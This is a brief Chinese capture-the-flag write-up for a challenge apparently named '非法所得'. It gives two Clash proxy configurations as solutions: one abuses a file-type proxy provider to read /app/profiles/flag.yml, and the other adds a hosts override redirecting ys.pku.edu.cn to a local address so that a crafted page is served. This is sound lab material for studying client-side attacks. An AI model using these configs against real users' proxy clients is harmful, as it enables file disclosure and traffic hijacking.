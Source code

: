## 非法所得

### Flag 1

写一个新的配置文件，引用已有的配置。

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090

proxy-groups:
  - name: UseProvider
    type: select
    use:
      - test

proxy-providers:
  test:
    type: file
    path: /app/profiles/flag.yml
```


### Flag 2

修改目标 url 的解析，再做一个对应的网页。

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090

proxy-groups:
  - name: UseProvider
    type: select
    use:
      - test


proxy-providers:
  test:
    type: file
    path: /app/profiles/flag.yml


hosts:
  'ys.pku.edu.cn': 172.17.0.1
```
